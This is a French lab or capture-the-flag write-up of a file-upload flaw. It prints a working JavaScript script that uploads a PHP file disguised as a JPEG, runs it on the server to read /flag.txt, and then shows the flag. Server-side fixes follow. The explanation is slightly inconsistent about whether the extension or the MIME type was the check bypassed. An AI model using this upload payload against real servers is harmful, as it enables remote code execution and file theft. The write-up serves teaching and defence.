

# Exploitation de la faille d'Upload de Fichier

## 1. Introduction
J'ai exploité une faille de sécurité liée à l'upload de fichiers sur la page **Upload**. Cette faille permettait de **contourner les restrictions** sur les types de fichiers acceptés en faisant passer un fichier **PHP malveillant** pour une **image JPEG**. J'ai ainsi pu exécuter du code sur le serveur et obtenir le **flag**.

---

## 2. Découverte de la faille
En accédant à la page :
```
http://10.211.55.2/index.php?page=upload
```
J'ai remarqué que le formulaire d'upload acceptait les fichiers en vérifiant uniquement leur extension (`.jpg`, `.png`, etc.) sans vérifier le contenu réel du fichier.


---

## 3. Exploitation de la faille
### **Objectif :**
Uploader un fichier **PHP** malveillant pour l'exécuter sur le serveur.

### **Méthode utilisée :**
J'ai utilisé la **console du navigateur** pour injecter un fichier **PHP** en tant que **faux fichier JPEG** grâce à un script `fetch()`.

---

## 4. Script utilisé

```js
async function uploadPHP() {
    const url = "http://10.211.55.2/index.php?page=upload";

    // Création du faux fichier image en PHP
    const phpPayload = "<?php echo 'Flag: ' . file_get_contents('/flag.txt'); ?>";
    const blob = new Blob([phpPayload], { type: "image/jpeg" });
    const formData = new FormData();
    formData.append("uploaded", blob, "test.php");
    formData.append("Upload", "Upload");

    try {
        const response = await fetch(url, {
            method: "POST",
            body: formData
        });

        const text = await response.text();
        console.log("Réponse du serveur :", text);

        // Vérification d'une potentielle URL pour exécuter le fichier PHP uploadé
        const match = text.match(/href="(uploads\/[^\"]+\.php)"/);
        if (match) {
            const uploadedUrl = "http://10.211.55.2/" + match[1];
            console.log("URL du fichier uploadé :", uploadedUrl);

            // Exécution du fichier PHP pour obtenir le flag
            const result = await fetch(uploadedUrl);
            const resultText = await result.text();
            console.log("Résultat du fichier PHP :", resultText);
        } else {
            console.log("Aucun fichier PHP détecté dans la réponse.");
        }
    } catch (error) {
        console.error("Erreur lors de l'upload :", error);
    }
}

uploadPHP();
```

---

## 5. Explication du Script

1. **Création du Faux Fichier** :
    - Utilisation d'un **Blob** contenant du **PHP** avec un type **image/jpeg** pour contourner la vérification côté client.

2. **Injection via FormData** :
    - Le fichier est injecté dans un **FormData** comme s'il s'agissait d'une image.

3. **Envoi avec fetch()** :
    - La requête **POST** est envoyée pour **uploader** le fichier.

4. **Analyse de la réponse** :
    - Le script **recherche un lien** vers le fichier uploadé pour tenter de l'exécuter.

5. **Exécution du fichier PHP** :
    - Si le fichier PHP est trouvé, il est exécuté pour obtenir le **flag**.

---

## 6. Résultat
Le fichier PHP a été uploadé et exécuté avec succès, affichant le **flag** :

```
46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8
```

### **Capture d'écran du Flag :**


---

## 7. Impact de la faille
Cette faille permet à un attaquant de :
- **Exécuter du code arbitraire** sur le serveur.
- **Accéder à des fichiers sensibles** comme `/flag.txt`.
- **Prendre le contrôle du serveur** en uploadant un shell PHP.

---

## 8. Prévention de la faille
Pour éviter cette vulnérabilité :
- **Vérifier le type MIME côté serveur** :
    ```php
    $finfo = finfo_open(FILEINFO_MIME_TYPE);
    $mimeType = finfo_file($finfo, $_FILES['uploaded']['tmp_name']);
    if ($mimeType !== 'image/jpeg' && $mimeType !== 'image/png') {
        die("Type de fichier non autorisé.");
    }
    ```
- **Limiter les extensions de fichier** (`.jpg`, `.png`) et **changer leur nom**.
- **Désactiver l'exécution de PHP** dans le dossier d'uploads :
    ```apache
    <Directory "/var/www/html/uploads">
        php_admin_flag engine off
    </Directory>
    ```

---

## 9. Correction de la faille
Pour corriger cette faille :
- **Utiliser des vérifications côté serveur**.
- **Désactiver les scripts exécutables dans le dossier d'uploads** via `.htaccess` :
    ```apache
    <FilesMatch "\.(php|pl|py|cgi)$">
        Deny from all
    </FilesMatch>
    ```

---

